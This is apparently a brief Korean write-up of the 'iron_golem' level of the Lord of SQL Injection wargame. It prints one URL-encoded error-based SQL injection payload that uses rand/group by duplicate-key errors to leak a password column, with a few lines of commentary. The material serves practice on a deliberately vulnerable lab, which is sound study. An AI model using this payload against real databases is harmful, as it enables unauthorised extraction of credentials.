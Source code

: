 # LOS2 - iron_golem

문제 PHP를 보면 문제의 의도를 only error based로 좁혀놨다. 그래서 그대로 풀었다.

%27%20or%20(select%20concat(ceil(rand(0)*2),pw)%20as%20x%20from%20(select%201%20union%20select%202%20union%20select%203)t%20group%20by%20x%20having%20min(0))%20--%20-

으음 그렇게 푸는 것이 아니라 한번에 빼올 수 있다

중복되는 el 값을 만들어서 에러에 호출하게 만든다.

다음문제야 말로 이 코드로 그대로 풀면 ㅅㅅ

